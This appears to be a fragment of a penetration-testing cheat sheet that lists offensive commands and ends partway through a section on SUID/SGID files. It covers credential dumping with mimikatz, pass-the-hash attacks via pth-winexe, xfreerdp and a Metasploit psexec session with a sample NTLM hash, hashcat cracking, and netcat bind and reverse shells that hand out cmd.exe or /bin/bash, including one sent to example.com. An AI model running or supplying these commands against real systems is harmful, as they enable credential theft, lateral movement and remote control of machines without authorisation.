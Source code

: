     git clone https://github.com/gentilkiwi/mimikatz.git
    privilege::debug
    sekurlsa::logonPasswords full

Gets a hash value

    git clone https://github.com/byt3bl33d3r/pth-toolkit
    pth-winexe -U hash //IP cmd

    or

    apt-get install freerdp-x11
    xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

    or
    
    meterpreter > run post/windows/gather/hashdump
    Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
    msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
    msf exploit(psexec) > exploit
    meterpreter > shell

#### Use Hashcat to crack passwords

    hashcat -m 400 -a 0 hash /root/rockyou.txt

#### Use the NC to fetch Banner information

    nc 192.168.0.10 80
    GET / HTTP/1.1
    Host: 192.168.0.10
    User-Agent: Mozilla/4.0
    Referrer: www.example.com
    <enter>
    <enter>

#### Use NC to bounce the shell on Windows

    c:>nc -Lp 31337 -vv -e cmd.exe
    nc 192.168.0.10 31337
    c:>nc example.com 80 -e cmd.exe
    nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000

Look for the SUID/SGID root file

#### Locate the SUID root file

find / -user root -perm -4000 -print

#### Locate the SGID root file
